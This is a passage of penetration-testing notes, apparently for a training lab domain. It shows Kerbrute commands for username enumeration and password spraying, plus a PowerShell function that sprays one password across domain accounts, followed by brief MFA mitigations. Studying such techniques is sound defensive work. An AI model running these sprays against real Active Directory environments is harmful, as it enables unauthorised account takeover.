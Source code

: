 ## 🛠️ Alternative Windows Tools

### 🎫 **Kerbrute on Windows**
```cmd
# Download and use Kerbrute Windows binary
kerbrute.exe userenum -d inlanefreight.local --dc 172.16.5.5 users.txt
kerbrute.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt Winter2022
```

### 🔨 **Native PowerShell Spraying**
```powershell
# Simple PowerShell spray function
function Test-DomainCredential {
    param($Username, $Password, $Domain)
    
    $cred = New-Object System.Management.Automation.PSCredential("$Domain\$Username", (ConvertTo-SecureString $Password -AsPlainText -Force))
    
    try {
        $session = New-PSSession -Credential $cred -ErrorAction Stop
        Remove-PSSession $session
        return $true
    }
    catch {
        return $false
    }
}

# Usage
$users = @("user1", "user2", "user3")
foreach ($user in $users) {
    if (Test-DomainCredential -Username $user -Password "Winter2022" -Domain "inlanefreight") {
        Write-Host "[SUCCESS] $user:Winter2022" -ForegroundColor Green
    }
}
```

---

## 🛡️ Mitigations

### 🔐 **Multi-Factor Authentication (MFA)**
```powershell
# Implementation considerations:
- Push notifications to mobile devices
- Rotating One Time Passwords (OTP) - Google Authenticator, RSA tokens
- SMS text message confirmations
- Hardware security keys (FIDO2, U2F)
- Biometric authentication
```
